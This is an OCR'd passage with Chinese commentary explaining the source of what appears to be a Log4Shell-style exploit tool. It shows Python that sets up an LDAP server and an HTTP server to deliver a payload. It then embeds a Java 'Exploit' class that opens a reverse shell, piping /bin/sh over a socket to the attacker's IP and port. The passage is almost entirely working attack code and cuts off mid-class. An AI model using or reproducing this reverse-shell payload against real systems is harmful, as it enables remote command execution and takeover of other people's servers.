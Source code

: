 payload函数

- generate_payload函数传入ip地址和端口后，生成payload
- 用新线程启动LDAP服务器
- 启动一个HTTP服务器

```python
def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()
```

generate_payload函数

- 实现并编译Exploit类，传入参数userip和lport（9001）
- Exploit类就是常见的Java反弹shell实现

```python
def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
```